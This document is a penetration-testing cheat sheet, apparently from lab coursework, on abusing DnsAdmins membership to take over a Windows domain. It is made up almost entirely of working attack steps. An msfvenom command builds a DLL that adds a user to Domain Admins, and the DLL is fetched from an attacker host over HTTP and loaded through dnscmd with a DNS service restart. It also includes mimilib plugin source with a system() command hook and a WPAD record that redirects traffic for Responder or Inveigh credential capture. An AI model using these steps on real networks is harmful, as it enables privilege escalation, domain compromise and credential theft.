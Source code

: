 ## Leveraging DnsAdmins Access

- dnscmd can only be used by DnsAdmins
- ONLY PERFORM WITH PERMISSION

**Generating Malicious DLL
```
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
python3 -m http.server 7777
wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"
```

**Loading DLL
```
Get-ADGroupMember -Identity DnsAdmins
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll
```
- Must specify full path to dll or attack will not work
- DLL will be loaded the next time the DNS service is started

**Finding User's SID
```
wmic useraccount where name="netadm" get sid
```

**Checking Permissions on DNS Service
```
sc.exe sdshow DNS
```
- https://www.winhelponline.com/blog/view-edit-service-permissions-windows/

**Stopping the DNS Service
```
sc stop dns
```

**Starting the DNS Service
```
sc start dns
```

**Confirming Group Membership
```
net group "Domain Admins" /dom
```


## Cleaning Up (Requires local or domain admin account)

**Confirming Registry Key Added
```
reg query \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters
```

**Deleting Registry Key
```
reg delete \\10.129.43.9\HKLM\SYSTEM\CurrentControlSet\Services\DNS\Parameters  /v ServerLevelPluginDll
```

**Starting the DNS Service Again
```
sc.exe start dns
```

**Checking DNS Service Status
```
sc query dns
```

**Using mimilib.dll
```
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, PLUGIN_FREE_FUNCTION pDnsFreeFunction)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(PSTR pszQueryName, WORD wQueryType, PSTR pszRecordOwnerName, PDB_RECORD *ppDnsRecordListHead)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
	}
	return ERROR_SUCCESS;
}
```

## Creating a WPAD Record

- This allows our attack machine to become a proxy for traffic, so we can run Responder or Inveigh

**Disabling the Global Query Block List
```
Set-DnsServerGlobalQueryBlockList -Enable $false -ComputerName dc01.inlanefreight.local
```

**Adding a WPAD Record
```
Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```
